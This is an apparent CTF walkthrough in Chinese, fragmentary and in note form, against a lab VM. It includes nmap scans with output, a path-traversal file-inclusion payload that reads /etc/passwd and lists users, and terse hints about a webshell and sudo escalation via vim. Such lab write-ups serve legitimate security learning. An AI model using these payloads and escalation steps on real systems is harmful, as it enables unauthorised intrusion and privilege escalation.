 # mynew


?page=  文件包含？sql注入？ 
安全机制端口转移 80=》60080
python get webshell
sudo -l iptables 
sudo -u vim /bin/bash
irc服务吗？ 

# 
VMware双击打开nat模式即可！

1、nmap 192.168.253.0/24 -sP
MAC Address: 00:50:56:E1:B2:64 (VMware)
Nmap scan report for 192.168.253.180


2、nmap 192.168.253.180 -p- -A -sS -T5

PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))


3、web信息收集

访问：http://192.168.253.180/
Enter a username to get started with this CTF! 
让我输入用户名，输入dayu！点击start开启CTF之旅！

发现目录：/?page=


4、LFI

文件包含？sql注入？

http://192.168.253.180/?page=home



walfin:x:1000:1000:walfin,,,:/home/walfin:/bin/bash
steven?:x:1001:1001::/home/steven?:/bin/bash
ircd:x:1003:1003:,,,:/home/ircd:/bin/bash


或者：nikto -h http://192.168.253.180
/index.php?page=../../../../../../../../../../etc/passwd
也可以发现存在文件包含！

枚举到三个用户信息：walfin、steven、ircd


再次访问：https://192.168.253.180/?page=../../../etc/passwd
发现无法访问了！！！

nmap 192.168.253.180 -p80
80/tcp closed http
发现80端口关闭了！！
